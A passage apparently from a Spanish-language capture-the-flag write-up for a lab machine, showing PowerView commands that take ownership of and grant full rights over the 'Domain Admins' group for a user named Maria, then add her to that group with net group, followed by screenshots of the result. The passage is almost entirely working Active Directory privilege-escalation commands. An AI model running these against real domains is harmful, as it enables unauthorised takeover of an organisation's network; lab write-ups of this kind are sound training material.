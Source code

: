 ```powershell
cd C:\ProgramData\bh
Import-Module ./PowerView.ps1

Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity Maria

Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity Maria
```

Ahora a nivel de dominio nos agregamos como usuario admin de dominio

```s
net group "Domain Admins" Maria /add /domain
```

![root](/assets/images/Object/root.png)

![powned](/assets/images/Object/powned.png)